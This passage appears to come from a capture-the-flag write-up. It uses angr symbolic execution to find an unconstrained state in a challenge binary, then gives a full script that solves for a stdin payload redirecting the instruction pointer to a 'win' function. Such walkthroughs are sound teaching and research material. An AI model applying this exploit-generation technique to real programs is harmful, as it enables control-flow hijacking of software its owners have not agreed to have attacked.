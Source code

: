 Woah, looks like we got some results: The program terminated with 1
unconstrained state.
An unconstrained state occurs when we take control of the instruction
pointer, hence the "unconstrained" state of execution (we can go to
wherever we want).

Let's inspect the program counter (i.e. instruction pointer):

```python
>>> exploitable_state = sm.unconstrained[0]
>>> exploitable_state.regs.pc
<BV64 0x0 .. (if strlen_4_64[31:0] == 0x3b && strlen_4_64[31:31] == 0 then 248 + (file_0_stdin_0_2_504{UNINITIALIZED}[407:406] .. ~file_0_stdin_0_2_504{UNINITIALIZED}[405:403] .. ~file_0_stdin_0_2_504{UNINITIALIZED}[402:402] .. ~file_0_stdin_0_2_504{UNINITIALIZED}[401:401] .. ~file_0_stdin_0_2_504{UNINITIALIZED}[400:400]) else 64) .. (if strlen_4_64[31:0] == 0x3b && strlen_4_64[31:31] == 0 || strlen_4_64[31:0] == 0x3a && strlen_4_64[31:31] == 0 then 55 else 10) .. (if strlen_4_64[31:0] == 0x3b && strlen_4_64[31:31] == 0 || strlen_4_64[31:0] == 0x3a && strlen_4_64[31:31] == 0 || strlen_4_64[31:0] == 0x39 && strlen_4_64[31:31] == 0 then 248 + (file_0_stdin_0_2_504{UNINITIALIZED}[7:6] .. ~file_0_stdin_0_2_504{UNINITIALIZED}[5:3] .. ~file_0_stdin_0_2_504{UNINITIALIZED}[2:2] .. ~file_0_stdin_0_2_504{UNINITIALIZED}[1:1] .. ~file_0_stdin_0_2_504{UNINITIALIZED}[0:0]) else 79)>
```

Cool! We can actually see a bunch of symbolic transformations that were applied
to our input! That means all we need to do is use angr's solver engine to determine which input will set `exploitable_state.regs.pc` to the address of `win`.

Here's my script:
```python
import angr
import claripy
import sys

def main(filename):
    proj = angr.Project(filename, auto_load_libs=False)

    # There's an fgets in main that reads 64 bytes from stdin.
    payload = [claripy.BVS(f"byte_{i}", 8) for i in range(64)]
    payload_ast = claripy.Concat(*payload + [claripy.BVV(b'\n')])

    st = proj.factory.full_init_state(
        args=[filename],
        add_options=angr.options.unicorn,
        stdin=payload_ast
    )

    # There aren't really any branches in the program, so let's just run it
    # until it terminates or reaches an unconstrained state.
    # ---
    # An unconstrained state occurs when we take control of the instruction
    # pointer, hence the "unconstrained" state of execution (we can go to
    # wherever we want).
    sm = proj.factory.simulation_manager(st, save_unconstrained=True)
    sm.run()

    # Take the first exploitable state that controls instruction pointer (for
    # this problem there's only one).
    ep = sm.unconstrained[0]
    pc = ep.regs.pc

    # Use the constraints solver to find a payload that sets $rip to the win
    # address, then save the payload to a file.
    win = proj.loader.find_symbol("win")
    ep.add_constraints(ep.regs.pc == win.linked_addr)
    payload_real = ep.solver.eval(payload_ast, cast_to=bytes)
    open(f"{filename}.exp", "wb").write(payload_real)
    print(f"[+] Wrote payload to {filename}.exp")
```